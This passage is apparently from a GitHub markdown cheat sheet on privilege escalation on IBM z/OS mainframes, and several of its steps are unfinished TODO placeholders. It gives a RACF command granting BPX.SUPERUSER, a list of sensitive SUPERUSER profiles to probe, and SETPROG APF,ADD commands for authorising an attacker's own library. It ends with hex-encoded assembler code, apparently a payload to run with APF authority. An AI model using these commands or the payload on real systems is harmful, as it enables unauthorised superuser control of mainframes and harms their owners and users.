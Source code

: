   ```
  PERMIT BPX.SUPERUSER CLASS(FACILITY) ID(USERID) ACCESS(READ)
  SETROPTS GENERIC(FACILITY) REFRESH
  ```
  
- Check for SUID programs:

  `TODO: find / ...`
  
- Check filesystem privs (files/dirs):

  `ls -laR /`

- Check for these sensitive permissions being set on file/dirs:

  - SUPERUSER.FILESYS.CHANGEPERMS
  - SUPERUSER.FILESYS.CHOWN 
  - BPX.SUPERUSER // uid(0) for FACILITY
  - SHARED.IDS
  - CHOWN.UNRESTRICTED
  - FILE.GROUPOWNER.SETGID
  - SUPERUSER.FILESYS.MOUNT
  - SUPERUSER.FILESYS.QUIESCE
  - SUPERUSER.FILESYS.PFSCTL
  - SUPERUSER.FILESYS.VREGISTER
  - SUPERUSER.IPC.RMID
  - SUPERUSER.PROCESS.GETPSENT
  - SUPERUSER.PROCESS.KILL
  - SUPERUSER.PROCESS.PTRACE
  - SUPERUSER.SETPRIORITY
  - SUPERUSER.FILESYS
  - SUPERUSER.FILESYS.ACLOVERRIDE
  - RESTRICTED.FILESYS.ACCESS

## OPERCMD profiles
- Can I ADD my own library to the APF list (e.g. in IEAAPFxx or PROGxx)?

  `SETPROG APF,ADD,DSNAME=PREFIX.FOOBAR.DATA,VOLUME=******`
  
- Can I update PARMLIB and wait for the next IPL?

  `TODO`
   
- Can I update PARMLIB and dynamically add an APF authorised library? 

  `TODO`
  
- Do I have access to MVS.SETPROG.** or even ** in the OPERCMDS class?
 
  `TODO`
  
- Run your own library as APF:

  `SETPROG APF,ADD,DSNAME=MYOWNLIB.LOAD,SMS`
  
  where MYOWNLIB.LOAD contains the following code:

  ```
  A START
  DC X'411000300A6B58F0021CBFFFF154A774000858F0022458FF006C58FF00C896'
  DC X'80F02617FF07FE'
  END A 
  ```
  